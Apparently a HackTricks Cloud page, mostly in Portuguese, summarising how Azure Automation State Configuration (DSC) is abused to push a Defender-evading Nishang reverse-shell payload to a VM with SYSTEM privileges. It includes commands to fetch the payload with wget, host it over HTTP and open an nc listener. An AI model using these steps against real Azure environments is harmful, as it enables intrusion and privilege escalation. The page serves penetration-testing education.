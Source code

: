 # Az - State Configuration RCE

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

**Confira o post completo em:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Resumo da Preparação e Etapas da Infraestrutura do Servidor Remoto (C2)

#### Visão Geral

O processo envolve a configuração de uma infraestrutura de servidor remoto para hospedar um payload modificado do Nishang `Invoke-PowerShellTcp.ps1`, chamado `RevPS.ps1`, projetado para contornar o Windows Defender. O payload é servido a partir de uma máquina Kali Linux com IP `40.84.7.74` usando um servidor HTTP simples em Python. A operação é executada através de várias etapas:

#### Etapa 1 — Criar Arquivos

* **Arquivos Necessários:** Dois scripts PowerShell são necessários:
1. `reverse_shell_config.ps1`: Um arquivo de Desired State Configuration (DSC) que busca e executa o payload. Ele pode ser obtido no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Um script para publicar a configuração na VM, disponível no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Personalização:** Variáveis e parâmetros nesses arquivos devem ser adaptados ao ambiente específico do usuário, incluindo nomes de recursos, caminhos de arquivos e identificadores de servidor/payload.

#### Etapa 2 — Compactar o Arquivo de Configuração

* O `reverse_shell_config.ps1` é compactado em um arquivo `.zip`, tornando-o pronto para transferência para a Conta de Armazenamento do Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Definir Contexto de Armazenamento e Fazer Upload

* O arquivo de configuração compactado é enviado para um contêiner de Armazenamento Azure predefinido, azure-pentest, usando o cmdlet Set-AzStorageBlobContent do Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* O servidor Kali baixa o payload RevPS.ps1 de um repositório do GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* O script é editado para especificar a VM Windows alvo e a porta para o reverse shell.

#### Step 5 — Publish Configuration File

* O arquivo de configuração é executado, resultando na implantação do script de reverse-shell no local especificado na VM Windows.

#### Step 6 — Host Payload and Setup Listener

* Um Python SimpleHTTPServer é iniciado para hospedar o payload, junto com um listener Netcat para capturar conexões recebidas.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* A tarefa agendada executa o payload, alcançando privilégios de nível SYSTEM.

#### Conclusão

A execução bem-sucedida deste processo abre inúmeras possibilidades para ações adicionais, como extração de credenciais ou expansão do ataque para várias VMs. O guia incentiva a continuidade do aprendizado e a criatividade no âmbito do Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
